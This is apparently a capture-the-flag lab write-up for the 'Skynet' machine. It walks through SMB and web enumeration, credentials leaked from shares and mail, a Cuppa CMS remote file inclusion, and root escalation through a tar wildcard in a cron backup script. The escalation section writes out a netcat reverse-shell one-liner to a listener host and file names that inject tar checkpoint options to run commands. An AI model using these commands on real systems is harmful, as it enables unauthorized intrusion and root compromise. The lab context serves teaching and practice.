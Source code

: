 # SKYNET
```
IP = 10.10.27.212
```

### Enumeration
-------------------------
+ Ran the initial and all vuln nmap scan.
+ Found SquirrelMail login page at `http://10.10.27.212/squirrelmail/src/login.php` with version `1.4.23 [SVN]`
+ Enumerated SMB shares using `sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.27.212`
+ Found anonymous share with helpful logs in it, contained current password for squirrelmail 
	`[milesdyson:cyborg007haloterminator]`
+ Dyson's mail contains smb password [)s{A&2Z=F^n_E.B`]`
+ Can log into his smb share using `smbclient //10.10.27.212/milesdyson --user=milesdyson`
+ Found hidden path at /45kra24zxs28v3yd in miles files
+ Ran gobuster on that path to find Cuppa CMS
+ Used searchsploit to look for exploits, Found RFI that worked!
+ Configured the RFI to accept a file which creates a reverse shell
+ Obtained a shell

### PrivEsc
-------------------------
+ A script called backups.sh runs every minute with root privileges
+ It opens a shell, navigates to a folder and creates a backup of everything
+ tar command has wildcard which can be exploited to execute commands
+ Created a listener on 9005 and executed following commands to gain root shell:
	`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.4.238 9005 >/tmp/f" > shell.sh`
	`touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"`
	`touch "/var/www/html/--checkpoint=1"`
